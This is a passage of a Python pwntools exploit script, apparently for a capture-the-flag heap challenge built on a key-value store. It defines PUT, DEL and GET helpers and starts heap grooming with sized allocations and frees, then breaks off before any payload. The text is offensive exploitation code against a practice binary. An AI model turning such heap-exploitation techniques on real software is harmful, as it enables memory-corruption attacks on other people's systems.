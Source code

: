 ```python
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

def cmd(command_num):
    p.recvuntil('command:')
    p.sendline(str(command_num))


def put(key, size, data):
    cmd('PUT')
    p.recvuntil('key:')
    p.sendline(key)

    p.recvuntil('size:')
    p.sendline(str(size))
    p.recvuntil('data:')
    if len(data) < size:
        p.send(data.ljust(size, '\x00'))
    else:
        p.send(data)


def delete(key):
    cmd('DEL')
    p.recvuntil('key:')
    p.sendline(key)


def get(key):
    cmd('GET')
    p.recvuntil('key:')
    p.sendline(key)
    p.recvuntil('[')
    num = int(p.recvuntil(' bytes').strip(' bytes'))
    p.recvuntil(':\n')
    return p.recv(num)


def main():
    # avoid complicity of structure malloc
    for i in range(10):
        put(str(i), 0x38, str(i))
        
    for i in range(10):
        delete(str(i))

    # allocate what we want in order
    put('1', 0x200, '1')
    put('2', 0x50, '2')
    put('5', 0x68, '6')
    put('3', 0x1f8, '3')
    put('4', 0xf0, '4')
    put('defense', 0x400, 'defense-data')


    # free those need to be freed
```